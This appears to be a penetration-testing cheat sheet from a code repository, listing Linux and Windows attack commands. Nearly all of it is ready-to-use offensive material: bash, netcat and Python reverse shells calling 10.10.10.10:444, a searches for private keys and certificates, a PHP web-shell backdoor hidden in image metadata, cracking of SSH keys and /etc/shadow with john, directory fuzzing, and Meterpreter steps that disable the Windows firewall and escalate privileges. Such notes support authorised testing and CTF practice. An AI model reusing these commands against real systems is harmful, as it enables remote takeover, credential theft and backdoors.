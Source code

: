 ## CHEATSHEET
### Linux

Find user owned files
~~~
find / -user $(whoami) 2>/dev/null | egrep -v '(/proc)'
~~~

Find writeable files
~~~
find / -writeable 2>/dev/null | egrep -v '(/proc|/run|/dev)'
~~~

Find readable files with following extensions
~~~
find / -readable 2>/dev/null | egrep '(\.key$|\.pub$|\.bak$|\.crt$|\.ca$|^id_rsa)'
~~~

Bash reverse shell
~~~
bash -i >& /dev/tcp/10.10.10.10/444 0>&1
~~~

Netcat reverse shell
~~~
nc -e /bin/bash 10.10.10.10 444
nc -e /bin.sh 10.10.10.10 444
~~~

Python reverse shell
~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
~~~

Upgrade shell with Python
~~~
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo
F+G+ENTER
~~~

Find files that aren't installed by the system
~~~
for i in $(ls $(pwd)/*); do dpkg --search $i 1>/dev/null; done
~~~

Inject PHP into image
~~~
exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
exiftool “-comment<=back.php” back.png
~~~

Cracking SSH
~~~
ssh2john id_rsa > id_rsa.hash
john --wordlist=wordlist.txt id_rsa.hash
~~~

Cracking /etc/shadow
~~~
unshadow passwd.hashes shadow.hashes > unshadowed_passwords.txt
john --wordlist=wordlist.txt passwords.txt
~~~

WFUZZ
~~~
wfuzz  -w /usr/share/wordlists/dirb/common.txt --hc 404,500 -u http://10.10.10.168:8080/
~~~

**Windows**

Metasploit windows meterpreter session
~~~
execute -f cmd.exe -c -H
shell
netsh firewall show opmode
netsh advfirewall set allprofiles state off
getsystem
~~~
